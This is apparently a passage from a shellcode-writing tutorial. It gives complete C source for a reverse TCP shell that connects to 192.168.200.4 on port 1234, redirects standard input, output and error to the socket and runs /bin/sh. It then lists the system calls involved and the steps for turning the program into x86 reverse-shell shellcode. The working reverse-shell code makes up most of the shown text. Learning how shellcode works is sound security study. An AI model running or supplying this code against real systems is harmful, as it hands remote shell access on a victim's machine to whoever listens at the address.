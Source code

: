```c

#include <stdio.h>
#include <unistd.h>
#include <netinet/in.h>
#include <sys/types.h>
#include <sys/socket.h>

#define REMOTE_ADDR "192.168.200.4"
#define REMOTE_PORT 1234

int main(int argc, char *argv[])
{
struct sockaddr_in sa;
int sockfd;

sockfd = socket(AF_INET, SOCK_STREAM, 0);

sa.sin_family = AF_INET;
sa.sin_addr.s_addr = inet_addr(REMOTE_ADDR);
sa.sin_port = htons(REMOTE_PORT);
connect(sockfd, (struct sockaddr *)&amp;sa, sizeof(sa));
dup2(sockfd, 0);
dup2(sockfd, 1);
dup2(sockfd, 2);

execve("/bin/sh", 0, 0);
return 0;
}

```

<p style="text-align:justify;">
In order to convert the above code into x86 assembly, there is a need to investigate the&nbsp; system calls being used. Specifically, the following&nbsp; system calls are used:
</p>

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
socket
connect 
dup2 
execve
</pre>

<p style="text-align:justify;">The above system calls except <strong>execve</strong>&nbsp;and <strong>dup2</strong> are socket system calls&nbsp;and they are referenced with <strong>socketcall</strong> which is a common kernel entry point. Furthermore, the following steps are mentioned in order to construct and create the reverse shell connection as follows</p>

<ol>
 	<li>Use <strong>connect</strong> system call to connect to a <strong>socket</strong> in specified address</li>
 	<li>Add the destination address to the <strong>sockaddr</strong> structure</li>
 	<li>Duplicate the <strong>stdin</strong>, <strong>stdout</strong> and <strong>stderr</strong> to the open <strong>socket</strong></li>
</ol>
<p style="text-align:justify;">The steps above providing a footprint to further build the <strong>reverse tcp shellcode</strong>. Moreover, searching the <strong>net.h</strong> header file we can see the defined identifier for the <strong>connect</strong> system call</p>

